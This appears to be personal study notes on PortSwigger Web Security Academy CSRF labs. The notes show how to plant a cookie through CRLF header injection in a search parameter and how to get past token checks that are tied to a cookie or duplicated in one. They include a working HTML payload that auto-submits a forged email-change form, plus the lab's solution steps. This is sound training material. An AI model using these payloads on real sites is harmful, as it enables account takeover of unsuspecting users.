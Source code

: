 csrf token: SXsROOTp3jzq6M5UzIL2KkJIqGpffIQb
csrf cookie: ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH

In order to exploit this vulnerability, we need to perform 2 things:
1. Inject a csrf cookie in the user's session (HTTP Header injection) - satisfied
2. Send a CSRF attack to the victim with a known csrf token


- after taking a valid csrf token and cookie from another user we have to inject the csrf cookie into header (we will use search functionality in order to see if a search cookie parameter is generated and we will inject over there)
	![[Pasted image 20240922003407.png]]

![[Pasted image 20240922003858.png]]

![[Pasted image 20240922010507.png]]

- HTML payload (form action= https://HOST/POST (change email request - first tab) | 
               img src= https://HOST/POST(injected header - second tab) )
```
<html>
    <body>
        <h1>Hello World!</h1>
        <form action="https:///0a33009903154da184367954005e0013.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="UYjqwyyGyrsnr8qGu5adRFltwGbIS8S6">
        </form>

        <img src="https://0a33009903154da184367954005e0013.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=04WkQgPVzQFtURvOaoJEwc04UjhQb5Gb%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

# 6. CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that the value of the `csrf` body parameter is simply being validated by comparing it with the `csrf` cookie.
3. Perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
4. Create a URL that uses this vulnerability to inject a fake `csrf` cookie into the victim's browser:
    `/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None`
5. Create and host a proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab, ensuring that your CSRF token is set to "fake". The exploit should be created from the email change request.
6. Remove the auto-submit `<script>` block and instead add the following code to inject the cookie and submit the form:
    `<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>`
7. Change the email address in your exploit so that it doesn't match your own.
